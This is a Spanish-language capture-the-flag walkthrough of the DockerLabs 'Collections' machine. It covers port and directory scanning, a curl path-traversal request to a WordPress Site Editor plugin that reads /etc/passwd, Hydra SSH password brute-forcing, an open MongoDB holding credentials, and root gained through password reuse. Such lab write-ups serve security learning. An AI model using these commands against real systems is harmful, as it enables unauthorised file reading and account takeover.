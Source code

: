 ```yaml
---
title: Collections
author: Ldeluq
date: 2019-08-08 14:10:00 +0800
categories: [Ctf, DockerLabs]
tags: [ciber]
render_with_liquid: false
---
```


![[Pasted image 20241126143259.png]](/imagenes/Pasted%20image%2020241126143259.png)

escaneamos puertos con nmap  `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2`

![[Pasted image 20241126143428.png]](/imagenes/Pasted%20image%2020241126143428.png)

entramos en el navegador 

![[Pasted image 20241126143553.png]](/imagenes/Pasted%20image%2020241126143553.png)

buscamos directorios con goubuster `gobuster dir -u "http://172.17.0.2/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt` 

![[Pasted image 20241126143720.png]](/imagenes/Pasted%20image%2020241126143720.png)


![[Pasted image 20241126143741.png]](/imagenes/Pasted%20image%2020241126143741.png)

si interactuamos con el sitio web debemos anadir el colletions.dl al host `sudo nano /etc/hosts`  control O, control x luego enter
luego busco directorios en la nueva direccion

![[Pasted image 20241126144527.png]](/imagenes/Pasted%20image%2020241126144527.png)
![[Pasted image 20241126144630.png]](/imagenes/Pasted%20image%2020241126144630.png)

al ver que es wordprees tarto de buscar vulneravilidades con wpscan `wpscan --url http://collections.dl/wordpress/ -e u`     

![[Pasted image 20241126145500.png]](/imagenes/Pasted%20image%2020241126145500.png)
![[Pasted image 20241126145523.png]](/imagenes/Pasted%20image%2020241126145523.png)

buscamos un sploit para el plugin
`searchsploit site editor 1.1`

![[Pasted image 20241126145643.png]](/imagenes/Pasted%20image%2020241126145643.png)

en sploit db encontramos como vulnerar ese plugin 

![[Pasted image 20241126145734.png]](/imagenes/Pasted%20image%2020241126145734.png)

curl "http://172.17.0.2/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd" 

![[Pasted image 20241126145827.png]](/imagenes/Pasted%20image%2020241126145827.png)

encontramos los usuarios dbadmin, root y el anteriormente encontrado chocolate usamos hydra para encontrar una contrasena para chocolate
`hydra -l chocolate -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`  
    
![[Pasted image 20241126145956.png]](/imagenes/Pasted%20image%2020241126145956.png)

entramos por ssh  vemos que no tenemos permisos sudo y en el directorio tmp encontramos una base de datos mongo recordamos mongo corre en el puerto 27017

![[Pasted image 20241126150107.png]](/imagenes/Pasted%20image%2020241126150107.png)

`mongo --host 172.17.0.2:27017` este comando desde la maquina atacante se debe instalar mongo para que funcione 

![[Pasted image 20241126154311.png]](/imagenes/Pasted%20image%2020241126154311.png)

entramos desde el ssh con las nuevas credenciales y vemos que el usuario root tiene la misma contrasena que el dbadmin

![[Pasted image 20241126154456.png]](/imagenes/Pasted%20image%2020241126154456.png)

